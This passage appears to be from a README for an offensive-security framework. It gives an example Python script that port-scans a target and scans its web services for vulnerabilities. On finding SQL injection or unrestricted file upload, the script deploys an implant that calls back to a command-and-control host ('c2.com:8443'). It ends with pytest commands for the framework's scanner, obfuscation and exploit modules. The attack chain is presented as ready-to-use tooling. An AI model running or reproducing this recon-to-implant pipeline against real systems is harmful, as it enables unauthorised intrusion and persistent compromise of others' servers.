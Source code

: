 ### Example 4: Full Reconnaissance to Exploitation

```python
from recon.network_scanner import NetworkScanner
from recon.web_scanner import WebScanner
from initial_access.sqli_exploit import SQLiExploit
from initial_access.file_upload import FileUploadExploit

# Step 1: Port scan
network_scanner = NetworkScanner()
ports = network_scanner.scan_common_ports('target.com')
open_ports = network_scanner.get_open_ports()

# Step 2: Identify web services
web_ports = [p for p in open_ports if p.service in ['HTTP', 'HTTPS']]

for port in web_ports:
    # Step 3: Scan for web vulnerabilities
    web_scanner = WebScanner()
    vulns = web_scanner.scan_url(f'http://target.com:{port.port}/')

    # Step 4: Exploit discovered vulnerabilities
    for vuln in vulns:
        if vuln.vuln_type == 'SQL Injection':
            exploit = SQLiExploit(f'http://target.com:{port.port}')
            exploit.deploy_implant(vuln.url, vuln.parameter, 'http://c2.com:8443')

        elif vuln.vuln_type == 'Unrestricted File Upload':
            exploit = FileUploadExploit(f'http://target.com:{port.port}')
            exploit.deploy_implant(vuln.url, 'http://c2.com:8443')
```

## Testing

### Running Tests

```bash
# Run all Phase 2 tests
pytest tests/test_network_scanner.py tests/test_web_scanner.py \
       tests/test_obfuscation.py tests/test_sqli_exploit.py \
       tests/test_initial_access_integration.py -v

# Run specific test file
pytest tests/test_network_scanner.py -v

# Run with coverage
pytest tests/ --cov=recon --cov=initial_access --cov=utils
```

### Test Coverage
